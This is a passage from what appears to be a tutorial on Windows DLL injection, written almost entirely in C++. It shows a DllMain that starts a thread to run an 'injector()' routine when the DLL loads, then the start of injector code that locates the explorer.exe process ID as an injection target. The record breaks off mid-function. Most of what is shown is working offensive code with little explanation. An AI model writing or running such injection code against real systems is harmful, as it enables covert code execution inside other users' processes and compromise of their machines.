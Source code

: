 ```cpp
            SEE_MASK_DEFAULT,
            SW_SHOW);
    }

    CoUninitialize();
    return 0;
}
```

The final code is just boiler plate DLL code that sets up DLLMain and our thread we will be creating to execute the injector() function:

```cpp
DWORD WINAPI ThreadProc(LPVOID lpParameter) {
    HMODULE hModule = (HMODULE)lpParameter;
    injector();
    FreeLibraryAndExitThread(hModule, 0);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls(hModule);
        CreateThread(nullptr, 0, ThreadProc, hModule, 0, nullptr);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

**Now that we have the DLL code completed, here's some basic DLL injection code to bring it all together:**

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

DWORD GetExplorerPID() {
    DWORD pid = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return 0;

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);
    if (Process32First(snapshot, &pe)) {
        do {
            if (_wcsicmp(pe.szExeFile, L"explorer.exe") == 0) {
                pid = pe.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe));
    }

    CloseHandle(snapshot);
```